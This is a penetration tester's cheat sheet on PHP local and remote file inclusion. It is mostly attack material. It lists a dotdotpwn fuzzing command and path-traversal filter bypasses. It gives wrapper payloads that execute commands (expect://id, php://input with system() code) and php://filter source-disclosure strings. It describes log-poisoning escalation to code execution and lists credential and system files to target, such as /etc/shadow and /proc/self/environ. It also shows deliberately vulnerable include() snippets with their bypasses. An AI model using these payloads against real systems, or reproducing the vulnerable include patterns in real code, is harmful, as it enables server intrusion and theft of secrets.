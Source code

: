 # php wrappers, LFI

## [dotdotpwn](https://github.com/wireghoul/dotdotpwn)

Note: preinstalled in latest kali iso. Works for `http, ftp, tftp`

```bash
dotdotpwn -h IP -m MODE -f FILE-TO-FUZZ -U USER -P PASS
```

## Workarounds

NOTE: **Read the file that is running LFI** to get more information about the code.

* Bypassing filters using `....//`
* Using null byte %00: `/etc/passwd%00`
* URL encoding techniques (double encoding)

### LFI wordlist

* `/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt`

## .php wrappers

```bash
# protocol wraper
file=http://IP/
file=ftp://IP/
file=//IP/smb-share/file

# expect wrapper
# allows to run system commands
file=expect://id

# input wrapper
file=php://input
# needs to send POST data
<?php system('id'); ?> | <?php shell_exec('id'); ?>

# filter wrappers
file=php://filter/resource=PHP-FILE
file=filter/read=string.rot13/resource=PHP-FILE
file=php://filter/convert.base64-encode/resource=PHP-FILE
```

## LFI to RCE (linux)

```bash
# using LFI can read access log files and then log poision
# if user does not have perms to read log files; can do file descriptor way
LFI=/proc/self/fd/{NUMBER}

# once have access to log file > log-poisoning.
```

## LFI Paths (linux)

```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/PID_NUMBER/fd/FILE_DESCRIPTOR_NUMBER
/proc/self/environ
/proc/version
/proc/cmdline
```

## LFI Paths (windows)

```bash
C:\Windows\System32\Drivers\etc\hosts
C:\\Windows\\System32\\Drivers\\etc\\hosts
\Windows\System32\Drivers\etc\hosts
\\Windows\\System32\\Drivers\\etc\\hosts
C:\Windows\win.ini
C:\\Windows\\win.ini
\Windows\win.ini
\\Windows\\win.ini
C:\Windows\system.ini
C:\\Windows\\system.ini
\Windows\system.ini
\\Windows\\system.ini
```

## LFI PHP Code Analysis

```php
<?PHP 
	include($_GET["file"]);
?>
```

The above code block includes any value given to the file paramter.

```php
<?PHP 
	include("downloads/". $_GET['file']); 
?>
```

The above code block includes any value given to the file parameter as long as its in the downloads directory. To bypass
use `../../../<>`

```php
<?PHP 
	include("downloads/". $_GET['file'].php); 
?>
```

The above code block includes any value given to the file parameter as long as its in the downloads directory and
appends `.php` to the user input value. To bypass use `../../../<>` and value ending with `%00`.

When there is substitution for `../`, bypass using `....//` as it will convert to `../`

## RFI PHP Code Analysis

Requirement for RFI to work is `allow_url_fopen` and `allow_url_include`